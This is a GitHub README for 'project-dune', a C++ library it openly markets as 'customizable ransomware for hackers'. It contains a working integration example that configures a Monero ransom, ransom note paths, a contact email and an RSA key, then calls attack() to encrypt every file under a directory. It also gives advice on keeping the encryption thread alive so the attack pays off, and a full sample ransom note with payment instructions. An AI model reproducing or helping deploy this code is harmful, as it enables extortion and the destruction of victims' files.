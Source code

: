 # project-dune
An customizable ransomware for hackers. 
## Usage

Example integration
```cpp
#include <iostream>
#include <vector>
#include <string>
#include <chrono>
#include "inc/dune.hpp"

int main(int argc, char *argv[])
{
    std::vector<std::string> notes;
    notes.push_back("./ransom.txt");
    notes.push_back("/ransom.txt");
    std::string public_key = "-----BEGIN PUBLIC KEY-----\n"
                             "MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC3LhafKJnVq/xa/1d40hcETsyG\n"
                             "CLSxlhXfJWERLPY14Di6EyKZj+e7+IpZF489pxnDEode2UaN/Mq0/hCy8epOrfx1\n"
                             "0BKGlxY72fPDt9MvThCs6DokeK4cIzcMEKQv4RNBF8q3winAM1SGnxLu7RWx2npF\n"
                             "ND8Xa8c7d8il4AjK5QIDAQAB\n"
                             "-----END PUBLIC KEY-----\n";
    std::vector<std::string> exempt_files = std::vector<std::string>();
    exempt_files.push_back("0ef71b11630f2ffb4e796e7923300d67a763eaca");
    exempt_files.push_back("c9831e93135c07e60e86d0cea63a878cb512764f");

    dune::Dune dune = dune::Dune(2.0, "XMR", "your address here", "You have been pwned!", notes, "tech@anon.gov", public_key, exempt_files);
    dune::Acknowledgement ack;
    ack.are_you_sure_you_want_to_do_this = true;
    ack.i_accept_the_risks_and_consequences_of_my_actions = true;
    ack.i_understand_it_is_illegel = true;
    dune.attack(ack, "./");
    printf("All done\n");
    return 0;
}
```

The Dune ransomware class contains two important methods. The attack method and the constructor. The constructor accepts several required arguments to tell the malware how to behave (Ex: what crypto address to demand). The most important parameter is the PEM formatted RSA key. The RSA public key must be valid, or behavior is not guaranteed. The class requires a string vector containing absolute or relative file paths to be supplied to create many ransom notes. More, the better. The class also takes an argument specifying the amount and type of cryptocurrency to be ransomed. It also accepts a message to include in the ransom file and can be left as an empty string. Also, there is an email parameter to have so that the victim can contact the ransomer.

## Notes
The attack method creates a thread that will encrypt all files in the background. Since this could take a while, you will need to create a while loop to wait until verify_done returns true. Remember to sleep between calls to it, or it will slow the encryption. You must do this to keep the thread alive, or encryption will likely result in corrupt files and no profit.

Example:
```cpp
dune.attack(ack, true);

while (!dune.verify_done()) {
    std::this_thread::sleep_for(std::chrono::milliseconds(5000));
}
```

This is an example Dune ransonware note file:
```
Message from hacker: You have been pwned!

You must pay in this type of cryptocurrency XMR.
The ransom amount is 2.000000 XMR.
The address to pay is: 

your address here

This address is specific to this attack. If you have multiple attacks paying another address will not help you get your files back. The full amount or more must be paid to the XMR address specified.
DO NOT MODIFY THIS OR ALL YOUR FILES WILL BE LOST (It is the RSA encrypted key for decryption)

GJXy2U6fJlThFBb9a1WwQFGfNzAlkpAmYTyrd+zddNJyxwhJrrwTStvtOM40OMtvLNiGWhIFAU7kFrQnmxzuntFse1+hzqmxz3xgUI+l5KiVgXiNvaLDmvGdvjCGg0ADjQcD/mkCW0FIIdtXXjNr+2seACPCFjYEajryMuPXekE=

Send this whole file to this email address AFTER you have paid the ransom: your-email@dnmx.org

If you contact this email before the ransom is paid in full it will likely be increased.


This is your victim id: d89ecb59-173c-d8de-5714-3cfa.
```

Enjor the easy integration.
